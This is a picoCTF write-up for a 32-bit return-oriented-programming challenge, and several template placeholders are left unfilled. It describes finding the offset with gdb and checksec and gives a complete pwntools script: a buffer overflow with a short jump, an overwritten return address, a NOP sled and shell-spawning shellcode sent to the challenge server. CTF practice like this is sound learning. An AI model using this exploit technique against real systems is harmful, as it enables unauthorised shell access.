 # CTF Write-Up: [Challenge Name][Challenge Type]

## Description
>What's ROP?
Can you exploit the following program to get the flag? Download source.


## Flag
The flag you obtained after solving the challenge. (e.g., `picoCTF{5n47ch_7h3_5h311_4cbbb771}`)

## Difficulty
- **Difficulty Level:** hard

## Tools Used
- gdb

## Write-Up

### Preparatory Phase
As per the name of the challenge I had to research how to conduct return-oriented programming (ROP). It a relatively intermediate-level skill which builds upon the the skills I've learnt in buffer overflow exploitaiton. The following step by step was as summary of [this](#https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing). The basic premise of this is to chain together so-called gadgets which enables us as the attacker to force the program to jump to un-intended areas of code. Gadgets are an instruction which typically ends with a `ret` for example: `pop rdi; ret.`

1. Find the offset to the return address via `gdb`
2. 




### Attack Phase
Using `checksec vuln` I was able to ascertain important information such as the binary's architecture and protections. An interesting discovery was that the stack was exectuable. Therefore I suspected we could execute our own shell code 
![alt text](images/image.png)

I now used `gdb` to find the offset which was determined to be 28 bytes. Therefore we need 28 bytes to reach the return pointer which for a 32-bit system is the `eip` register. 

### Final Solution/Payload
``` py
from pwn import *

local = False
offset = 24
short_jump = b'\xeb\x08\x90\x90'
payload = b'A' * offset
payload += short_jump
payload += p32(0x0805333b)
payload += b'\x90'*100
payload += asm(shellcraft.i386.linux.sh())

if local:
    io = process('./vuln')
else:
    io = remote('saturn.picoctf.net', 60948)
io.sendline(payload)
io.interactive()
```

### Lessons Learnt
I had to first understand what return oriented programming was. By extension this required understanding what [gadgets] were. 
## References
- Link to any external resources, write-ups, or documentation that were helpful in solving the challenge.

